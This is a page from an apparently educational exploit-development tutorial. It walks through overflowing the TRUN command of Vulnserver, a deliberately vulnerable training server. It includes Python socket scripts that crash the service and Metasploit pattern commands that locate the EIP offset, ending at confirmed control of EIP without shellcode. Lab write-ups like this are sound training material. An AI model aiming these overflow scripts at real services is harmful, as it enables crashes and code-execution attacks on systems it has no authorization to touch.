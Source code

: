 ```yaml
---
title: "TRUN EIP Overwrite"
layout: home
permalink: /vulnserver/trun/
collection: vulnserver
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

Vulnserver TRUN Python Script: POC
```py
#!/usr/bin/python
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.
	> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

Vulnserver TRUN Python Script: Pattern
```py
#!/usr/bin/python
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.
	 > /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

	Vulnserver TRUN Python Script: Control
		#!/usr/bin/python
		import socket
		import os
		import sys

		crash="A"*2003 + "B"*4 + "C"*1993

		buffer="TRUN /.:/"
		buffer+=crash

		print "[*] Sending evil TRUN request to VulnServer, OS-42279"
		expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
		expl.connect(("192.168.83.128", 9999))
		expl.send(buffer)
		expl.close()

Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)
![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)
